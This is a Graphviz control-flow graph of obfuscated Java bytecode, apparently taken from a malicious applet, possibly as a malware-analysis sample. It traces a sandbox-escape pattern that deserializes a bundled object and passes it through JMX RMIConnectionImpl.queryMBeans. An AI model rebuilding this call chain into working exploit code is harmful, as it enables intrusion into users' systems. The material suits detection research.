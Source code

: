 digraph "" {
    "r0 := @this: PNYGT7O"
    "load.r r0"
    "r0 := @this: PNYGT7O"->"load.r r0";
    "push \"url\""
    "load.r r0"->"push \"url\"";
    "virtualinvoke <PNYGT7O: java.lang.String getParameter(java.lang.String)>"
    "push \"url\""->"virtualinvoke <PNYGT7O: java.lang.String getParameter(java.lang.String)>";
    "staticput <PNYGT7O: java.lang.String host>"
    "virtualinvoke <PNYGT7O: java.lang.String getParameter(java.lang.String)>"->"staticput <PNYGT7O: java.lang.String host>";
    "push \"8888\""
    "staticput <PNYGT7O: java.lang.String host>"->"push \"8888\"";
    "staticput <PNYGT7O: java.lang.String s_port>"
    "push \"8888\""->"staticput <PNYGT7O: java.lang.String s_port>";
    "push null"
    "staticput <PNYGT7O: java.lang.String s_port>"->"push null";
    "store.r r15"
    "push null"->"store.r r15";
    "new java.io.ObjectInputStream"
    "store.r r15"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r r0";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "load.r r0"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "store.r r0"
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r r0";
    "store.r r0"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "push 0"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "push null"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "new java.lang.StringBuilder"
    "staticget <java.lang.System: java.io.PrintStream out>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"IOException: \""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"IOException: \"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"IOException: \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "goto return"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "push null"->"store.r r0";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"load.r r0";
    "new l_Gu_b__"
    "load.r r0"->"new l_Gu_b__";
    "new l_Gu_b__"->"dup1.r";
    "specialinvoke <l_Gu_b__: void <init>()>"
    "dup1.r"->"specialinvoke <l_Gu_b__: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <l_Gu_b__: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"javasucks\""
    "load.r r0"->"push \"javasucks\"";
    "push \"javasucks\""->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push null";
    "load.r r15"
    "push null"->"load.r r15";
    "load.r r15"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "pop"
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "pop"->"goto return";
    "virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>"
    "load.r r0"->"virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "staticget <PNYGT7O: java.lang.String filename>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"staticget <PNYGT7O: java.lang.String filename>";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "staticget <PNYGT7O: java.lang.String filename>"->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"store.r r15";
    "store.r r15"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
}
